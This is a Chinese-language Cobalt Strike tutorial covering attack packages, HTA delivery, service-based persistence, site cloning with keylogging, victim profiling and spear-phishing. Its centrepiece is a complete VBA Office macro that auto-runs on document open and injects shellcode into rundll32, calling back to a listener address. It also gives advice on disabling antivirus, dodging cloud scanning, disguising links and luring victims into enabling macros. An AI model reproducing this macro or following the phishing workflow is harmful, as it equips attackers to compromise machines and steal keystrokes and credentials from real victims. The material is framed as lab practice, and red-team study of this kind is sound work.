CS基础和WEB Drive-by功能详解
CS基础
CS服务端启动方式
./teamserver ip password
Attacks-Packages:
HTML Application生成恶意HTA木马
MS Office Macro生成office宏病毒
Payload Generator生成各种语言版本的payload
USB/CD Autoplay 生成利用自动播放运行的木马
Windows Dropper捆绑器，对文档类进行捆绑
Windows Executable 生成可执行exe木马
Windows Executable(S)生成无状态的exe木马
Attacks-Web Drive-by
Manage对开启的web服务进行管理
Clone Site克隆网站，可记录受害者提交数据
Host File 提供文件下载，可修改Mime信息
Powershell Web Delivery类似MSF的WEB_delivery
signed applet attack 使用java自签名程序进行钓鱼
Smart Applet Attack自动检测Java版本并进行攻击，针对Java1.6.0_45以下以及1.7.0_21以下版本
System Profiler用来获取系统信息，如系统版本，Flash版本，浏览器版本等
生成对应木马目标执行后就会上线

可以浏览文件，收集内网信息等，但是相比于MSF反应略慢，所以有时候需要MSF和CS联动
CS使用office宏进行攻击
新建一个office监听器

点击生成宏后选择监听器

宏代码会自动加载，需要自己点击复制然后创建宏

默认生成的宏代码如下，该代码并没有做免杀，基本都会直接被杀掉
Private Type PROCESS_INFORMATION
hProcess As Long
hThread As Long
dwProcessId As Long
dwThreadId As Long
End Type
Private Type STARTUPINFO
cb As Long
lpReserved As String
lpDesktop As String
lpTitle As String
dwX As Long
dwY As Long
dwXSize As Long
dwYSize As Long
dwXCountChars As Long
dwYCountChars As Long
dwFillAttribute As Long
dwFlags As Long
wShowWindow As Integer
cbReserved2 As Integer
lpReserved2 As Long
hStdInput As Long
hStdOutput As Long
hStdError As Long
End Type
#If VBA7 Then
Private Declare PtrSafe Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As LongPtr, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As LongPtr
Private Declare PtrSafe Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As LongPtr
Private Declare PtrSafe Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As LongPtr, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As LongPtr) As LongPtr
Private Declare PtrSafe Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDirectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#Else
Private Declare Function CreateStuff Lib "kernel32" Alias "CreateRemoteThread" (ByVal hProcess As Long, ByVal lpThreadAttributes As Long, ByVal dwStackSize As Long, ByVal lpStartAddress As Long, lpParameter As Long, ByVal dwCreationFlags As Long, lpThreadID As Long) As Long
Private Declare Function AllocStuff Lib "kernel32" Alias "VirtualAllocEx" (ByVal hProcess As Long, ByVal lpAddr As Long, ByVal lSize As Long, ByVal flAllocationType As Long, ByVal flProtect As Long) As Long
Private Declare Function WriteStuff Lib "kernel32" Alias "WriteProcessMemory" (ByVal hProcess As Long, ByVal lDest As Long, ByRef Source As Any, ByVal Length As Long, ByVal LengthWrote As Long) As Long
Private Declare Function RunStuff Lib "kernel32" Alias "CreateProcessA" (ByVal lpApplicationName As String, ByVal lpCommandLine As String, lpProcessAttributes As Any, lpThreadAttributes As Any, ByVal bInheritHandles As Long, ByVal dwCreationFlags As Long, lpEnvironment As Any, ByVal lpCurrentDriectory As String, lpStartupInfo As STARTUPINFO, lpProcessInformation As PROCESS_INFORMATION) As Long
#End If
Sub Auto_Open()
Dim myByte As Long, myArray As Variant, offset As Long
Dim pInfo As PROCESS_INFORMATION
Dim sInfo As STARTUPINFO
Dim sNull As String
Dim sProc As String
#If VBA7 Then
Dim rwxpage As LongPtr, res As LongPtr
#Else
Dim rwxpage As Long, res As Long
#End If
myArray = Array(-4,-24,-119,0,0,0,96,-119,-27,49,-46,100,-117,82,48,-117,82,12,-117,82,20,-117,114,40,15,-73,74,38,49,-1,49,-64,-84, _
60,97,124,2,44,32,-63,-49,13,1,-57,-30,-16,82,87,-117,82,16,-117,66,60,1,-48,-117,64,120,-123,-64,116,74,1,-48, _
80,-117,72,24,-117,88,32,1,-45,-29,60,73,-117,52,-117,1,-42,49,-1,49,-64,-84,-63,-49,13,1,-57,56,-32,117,-12,3, _
125,-8,59,125,36,117,-30,88,-117,88,36,1,-45,102,-117,12,75,-117,88,28,1,-45,-117,4,-117,1,-48,-119,68,36,36,91, _
91,97,89,90,81,-1,-32,88,95,90,-117,18,-21,-122,93,104,110,101,116,0,104,119,105,110,105,84,104,76,119,38,7,-1, _
-43,-24,-128,0,0,0,77,111,122,105,108,108,97,47,53,46,48,32,40,99,111,109,112,97,116,105,98,108,101,59,32,77, _
83,73,69,32,57,46,48,59,32,87,105,110,100,111,119,115,32,78,84,32,54,46,49,59,32,84,114,105,100,101,110,116, _
47,53,46,48,59,32,76,66,66,82,79,87,83,69,82,41,0,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88, _
88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88,88, _
88,88,88,88,88,0,89,49,-1,87,87,87,87,81,104,58,86,121,-89,-1,-43,-21,121,91,49,-55,81,81,106,3,81,81, _
104,-72,34,0,0,83,80,104,87,-119,-97,-58,-1,-43,-21,98,89,49,-46,82,104,0,2,96,-124,82,82,82,81,82,80,104, _
-21,85,46,59,-1,-43,-119,-58,49,-1,87,87,87,87,86,104,45,6,24,123,-1,-43,-123,-64,116,68,49,-1,-123,-10,116,4, _
-119,-7,-21,9,104,-86,-59,-30,93,-1,-43,-119,-63,104,69,33,94,49,-1,-43,49,-1,87,106,7,81,86,80,104,-73,87,-32, _
11,-1,-43,-65,0,47,0,0,57,-57,116,-68,49,-1,-21,21,-21,73,-24,-103,-1,-1,-1,47,53,100,120,75,0,0,104,-16, _
-75,-94,86,-1,-43,106,64,104,0,16,0,0,104,0,0,64,0,87,104,88,-92,83,-27,-1,-43,-109,83,83,-119,-25,87,104, _
0,32,0,0,83,86,104,18,-106,-119,-30,-1,-43,-123,-64,116,-51,-117,7,1,-61,-123,-64,117,-27,88,-61,-24,55,-1,-1,-1, _
49,55,50,46,49,54,46,49,50,46,49,50,57,0)
If Len(Environ("ProgramW6432")) > 0 Then
sProc = Environ("windir") & "\\SysWOW64\\rundll32.exe"
Else
sProc = Environ("windir") & "\\System32\\rundll32.exe"
End If
res = RunStuff(sNull, sProc, ByVal 0&, ByVal 0&, ByVal 1&, ByVal 4&, ByVal 0&, sNull, sInfo, pInfo)
rwxpage = AllocStuff(pInfo.hProcess, 0, UBound(myArray), &H1000, &H40)
For offset = LBound(myArray) To UBound(myArray)
myByte = myArray(offset)
res = WriteStuff(pInfo.hProcess, rwxpage + offset, myByte, 1, ByVal 0&)
Next offset
res = CreateStuff(pInfo.hProcess, 0, 0, rwxpage, 0, 0, 0)
End Sub
Sub AutoOpen()
Auto_Open
End Sub
Sub Workbook_Open()
Auto_Open
End Sub
将这串代码复制到WORD或者其他office中进行创建宏
office2016版本的位置如下：视图-宏-创建宏
建议宏位置直接选择当前文档，要不然可能会返回多个shell

然后将宏代码插入

保存的时候直接被火绒杀了，所以在测试的时候建议先把杀软关了

打开后会提示安全警告，这时候点启用内容成功执行宏，在实际钓鱼过程中需要想办法诱导对方执行

加载完成后可以看到直接得到了shell

shell中可以直接进行列出文件等操作
HTTP监听，服务上线
首先以HTTPS形式创建监听

然后进行生成payload，选择windows service exe

将目标文件放到根目录下，改名成test.exe，然后执行命令sc create artifact binpath= “C:\test.exe” start= auto displayname= “test service”

可以看到服务已经创建

然后启动服务

启动以后在CS中成功收到shell

以服务形式启动：
服务的创建，启动、停止和删除
sc create artifact binpath= "C:\test.exe" start= auto displayname= "test service"
sc start artifact
sc delete artifact
sc stop artifact
服务启动和普通exe启动的区别:
如果服务以管理员权限创建，则返回的权限会直接到System，而普通exe返回的目标则是默认用户权限
https传输可以让流量防止被一些防护软件进行方向解析
CS WEBdrive钓鱼
信息收集不需要创建监听
选择攻击类型为SystemProfiler

设置跳转链接和源地址

通过浏览器访问后跳转到了百度
这时候在CS的View中打开查看窗口

因为火绒的拦截内部地址没有显示，本来会显示内网IP，同时external会显示公网IP

所以火绒的策略还是比较有效的
如果通过虚拟机直接访问，就可以看到直接收到了IP地址

为了钓鱼的成功性和隐蔽性，建议连接使用短网址压缩或者其他方式加密
WEBDrive配合HTA上线
创建监听，仍和之前类型一样属于http反弹shell
生成HTA Payload

类型建议选择ps，毕竟ps强大

生成的HTA是可执行的

将HTA先放到服务器上（也就是先生成），再进行HostsFile配置


查看和管理我们的钓鱼链接

然后开始假装受害者访问连接

访问后确保我们的木马可以下载

运行HTA主机就上线了

CS clone站点
克隆钓鱼站点（需要把之前的site先删掉，或者更改端口，不然会报错导致服务无法启动）


访问网站
会出现请求下载木马，然后再点clone site，进行如下配置，记住点上下面那个小勾用于启动键盘记录

可以看到此时模拟的页面和百度一模一样

通过WEBlog查看键盘记录


克隆完了就可以和之前的信息收集来一套组合拳，首先配置Clone页面，这边端口先放81

然后我们再来配置信息收集

模拟受害者的访问地址为172.16.12.129，默认80端口，然后重定向到clone站点，收到了系统信息

同时键盘记录也成功捕获到了

克隆和获取信息这两个不能倒置，如果倒置了，也就是克隆站点是那个获取信息的页面，也就是如下配置

因为默认的设置了如果请求不到就开始刷新，就开始无限套娃了…

并且这时候还会对自己的CS接受进行轰炸，真·自己打自己

批量发送钓鱼邮件
首先创建HTTP类型监听

针对内网业务环境考虑到很多文件均为office文档，因此我们创建宏病毒

将宏文档生成后为避免云查杀，因此采用winrar等软件加密压缩

创建clone site，这时候已经有了钓鱼链接和木马

然后我们开始发送钓鱼邮件，进行鱼叉攻击

